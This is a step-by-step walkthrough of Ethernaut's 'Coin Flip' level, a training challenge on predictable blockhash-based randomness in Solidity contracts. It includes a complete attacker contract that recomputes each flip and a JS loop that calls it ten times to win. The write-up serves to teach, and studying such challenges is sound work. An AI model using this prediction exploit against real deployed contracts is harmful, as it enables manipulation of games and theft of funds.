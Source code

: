 # Coin Flip – Level 3 Walkthrough

Welcome to **Coin Flip**, the third level of the **Ethernaut** wargame by [OpenZeppelin](https://ethernaut.openzeppelin.com/), focused on exploiting **pseudo-randomness vulnerabilities**.

---

## Challenge Objective

You are given a contract that mimics a coin flip, generating guesses using a flawed random mechanism:

```solidity
function flip(bool _guess) public returns (bool) { … }
```

Your goals:

* Predict the next coin flip outcome
* Achieve **10 consecutive wins**
* Submit the instance to complete the level

---

## Prerequisites

* **MetaMask** is installed and connected to a testnet
* **Test ETH** (e.g., Goerli, Sepolia)
* Familiarity with **browser DevTools** and **JS console**
* Access to the [Ethernaut Game](https://ethernaut.openzeppelin.com/)

---

## Getting Started

### 1. **Load the Level**

* Visit [ethernaut.openzeppelin.com](https://ethernaut.openzeppelin.com/)
* Select **"Coin Flip"**
* Click **“Get new instance”**
* Confirm the MetaMask transaction to deploy your unique contract

This injects a global `contract` object into your browser console.

---

## Walkthrough – Step by Step

### Step 1: Understand the Flipping Logic

```js
await contract.flip(true) // or false
await contract.consecutiveWins()
```

Internally, it calculates:

```solidity
uint256 blockValue = uint256(blockhash(block.number - 1));
uint256 coinFlip = blockValue / FACTOR;
bool side = coinFlip == 1;
```

Since both `blockValue` and `FACTOR` are known, you can **replicate** the result. ([blog.blockmagnates.com][1], [coinsbench.com][2], [dev.to][3], [securitypills.news][4])

---

### Step 2: Create Attack Contract

Craft a Solidity contract that imports `CoinFlip` and predicts each flip:

```solidity
pragma solidity ^0.8.0;
interface ICoinFlip {
  function flip(bool _guess) external returns (bool);
  function consecutiveWins() external view returns (uint256);
}

contract CoinFlipAttacker {
  ICoinFlip public target;
  uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

  constructor(address _target) {
    target = ICoinFlip(_target);
  }

  function attack() external {
    uint256 blockValue = uint256(blockhash(block.number - 1));
    bool guess = (blockValue / FACTOR) == 1;
    target.flip(guess);
  }
}
```

This mimics the contract’s `flip()` logic and calls it with the **correct outcome**. ([gist.github.com][5])

---

### Step 3: Deploy & Execute

1. **Deploy** this attack contract via Remix (Injected Provider).
2. **Run** the `attack()` method **10 times**, either manually or in a loop:

   ```js
   for (let i = 0; i < 10; i++) {
     await attacker.attack();
   }
   ```
3. Confirm each flip increases `consecutiveWins`. Eventually, it should hit 10.

---

### Step 4: Submit the Level

Once `consecutiveWins() == 10`, go back to the Ethernaut UI, click **“Submit instance”**, and confirm the transaction. 🎉

---

## What You Learn

* Block values like `blockhash` and `block.number` are not secure entropy sources
* You can replicate pseudorandom logic to manipulate outcomes
* Executing calls within your own contract ensures the same block context. ([gist.github.com][5], [notonlyowner.com][6])

---

## Concepts Covered

| Concept                    | Description                                                                             |
| -------------------------- | --------------------------------------------------------------------------------------- |
| Pseudo-randomness          | Demonstrates blockchain vulnerabilities using deterministic data                        |
| Contract-to-contract calls | Provides simultaneous context for prediction and call                                   |
| Consecutive-state logic    | Shows how state resets or increments based on repeated action                           |
| Attack automation          | Highlights how automated scripts/contracts can completely solve deterministic contracts |

---

## Resources

* [Ethernaut Game](https://ethernaut.openzeppelin.com/)
* [blog](https://shubhamm.me/blog/ethernaut_challenges_coin_flip)